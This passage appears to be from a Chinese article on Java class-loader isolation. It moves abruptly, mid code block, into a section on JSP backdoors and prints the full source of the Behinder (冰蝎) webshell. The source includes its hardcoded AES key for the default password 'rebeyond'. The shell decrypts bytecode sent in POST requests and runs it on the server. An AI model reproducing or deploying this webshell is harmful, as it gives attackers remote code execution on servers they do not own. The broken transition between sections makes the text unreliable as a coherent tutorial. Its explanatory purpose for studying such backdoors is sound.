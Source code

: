 ### 分析

**类的身份 = 类加载器 + 全限定类名。**

1. **类加载器的隔离性**  
   
   - **每个类加载器拥有独立的命名空间**，即使两个类加载器共享同一个父类加载器，它们加载的类也**互不干扰**。  
   - JVM 通过「类全限定名 + 类加载器」的组合唯一标识一个类。  
   
2. **示例中的实际内存状态**  
   
   - `loaderA` 加载的 `Demo` 类 → 记为 `Demo@LoaderA`  
   - `loaderB` 加载的 `Demo` 类 → 记为 `Demo@LoaderB`  
   - **两个类在 JVM 中独立存在**，彼此不可见，也不会被覆盖。  
   
3. **为什么强制转换失败？**  
   
   ```java
   Demo demoA = (Demo) instanceA; // 实际等价于：
   Demo@SystemClassLoader demoA = (Demo@SystemClassLoader) instanceA;

## 五、JSP自定义类加载后门

以冰蝎为首的JSP后门利用的就是自定义类加载实现的，冰蝎的客户端会将待执行的命令或代码片段通过动态编译成类字节码并加密后传到冰蝎的JSP后门，后门会经过AES解密得到一个随机类名的类字节码，然后调用自定义的类加载器加载，最终通过该类重写的equals方法实现恶意攻击，其中equals方法传入的pageContext对象是为了便于获取到请求和响应对象，需要注意的是冰蝎的命令执行等参数不会从请求中获取，而是直接插入到了类成员变量中。

### **冰蝎源码**

```jsp
<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*" %>
<%!
    class U extends ClassLoader {
        U(ClassLoader c) {
            super(c);
        }

        public Class g(byte[] b) {
            return super.defineClass(b, 0, b.length);
        }
    }
%><%
    if (request.getMethod().equals("POST")) {
        String k = "e45e329feb5d925b";/*该密钥为连接密码32位md5值的前16位，默认连接密码rebeyond*/
        session.putValue("u", k);
        Cipher c = Cipher.getInstance("AES");
        c.init(2, new SecretKeySpec(k.getBytes(), "AES"));
        new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);
    }
%>
```

从冰蝎的源码不难看出，他就是基于classloader原理开发的后门文件。
